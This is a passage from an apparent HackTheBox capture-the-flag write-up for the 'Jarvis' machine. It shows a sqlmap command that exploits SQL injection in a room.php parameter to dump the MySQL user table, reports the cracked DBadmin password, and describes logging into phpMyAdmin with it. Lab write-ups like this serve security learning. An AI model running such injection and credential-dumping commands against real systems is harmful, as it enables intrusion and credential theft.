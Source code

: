 
The `user` tabel seems interesting, let's dump it out:

```bash
sqlmap -u http://jarvis.htb/room.php?cod=4 -p cod -D mysql -T user --dump --batch -A "NONE"
```

![pass-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/pass-15.png)


The output is a bit messy, but we have a password hash, and `sqlmap` cracked it for us to `imissyou`. The user name is `DBadmin`. We can use these credentials to login to the `phpmyadmin` portal:

![portal-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/portal-16.png)

